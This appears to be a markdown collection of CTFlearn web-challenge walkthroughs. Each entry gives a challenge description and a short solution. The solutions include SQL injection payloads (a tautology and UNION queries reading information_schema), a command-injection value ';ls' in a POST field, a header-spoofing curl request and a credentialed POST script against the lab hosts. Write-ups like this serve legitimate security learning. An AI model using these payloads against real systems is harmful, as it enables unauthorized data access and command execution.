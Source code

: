 - `URL`: https://ctflearn.com/

## Web

### My Blog
 - Description
 ```text
 Hi, I'm Noxtal! I have hidden a flag somewhere in my Cyberworld (AKA blog)...
  you may find a good application for your memory. ;)
 Note: This is my real website (thus no deadly bug to exploit here).
       You might want to read some of my content (writeups, tutorials, and cheatsheets).
       I would be glad to receive any kind of feedback.
 Click here to access it, have fun checking my blog out! Cheers!
 Hint: replace the flag{} part with CTFlearn{}.
 ```
- `Walk-Throught`
    - `F12` -> `LocalStorage` : Get Flag

### Basic Injection
 - Description
 ```text
 See if you can leak the whole database using what you know about SQL Injections. link
 Don't know where to begin? Check out CTFlearn's SQL Injection Lab
 ```
 - `Walk-Throught`
   - payload: 'or '1'='1

### POST Practice
 - Description
 ```text
 This website requires authentication, via POST.
 However, it seems as if someone has defaced our site.
 Maybe there is still some way to authenticate? http://165.227.106.113/post.php
 ```
 - `Walk-Throught`
   ```python
   import requests
   data = {
		"username":"admin",
		"password":"71urlkufpsdnlkadsf"
	}
	URL = "http://165.227.106.113/post.php"

	r = requests.post(URL,data=data)
	print(r.text)
   ```

### Don't Bump Your Head(er) 
 - Description
 ```text
 Try to bypass my security measure on this site! http://165.227.106.113/header.php
 ```
 - `Walk-Throught`
    ```sh
    curl -H "User-Agent: Sup3rS3cr3tAg3nt" --refer "awesomesauce.com" http://165.227.106.113/header.php
    ```

### Calculat3 M3 
 - Description
 ```text
 Here! http://web.ctflearn.com/web7/ 
 I forget how we were doing those calculations,
 but something tells me it was pretty insecure.
 ```
 - `Walk-Throught`
 ```sh
 curl -X POST "https://web.ctflearn.com/web7/" -d "expression=;ls"
 ```

### Inj3ction Time 
  - Description
 ```text
 I stumbled upon this website: http://web.ctflearn.com/web8/ and I think they have the flag in their somewhere.
 UNION might be a helpful command
 ```
 - `Walk-Throught`
 ```text
 @PAYLOAD 1 : 1 union select 1,2,3,4

 @PAYLOAD 2 : 1 union select 1,table_name,3,4 from information_schema.TABLES --> w0w_y0u_f0und_m3

 @PAYLOAD 3 : 1 union select 1, column_name, 3, 4 from information_schema.columns --> f0und_m3

 @PAYLOAD 4 : 1 union select 1, f0und_m3, 3, 4 from w0w_y0u_f0und_m3 --> abctf{uni0n_1s_4_gr34t_c0mm4nd}
 ```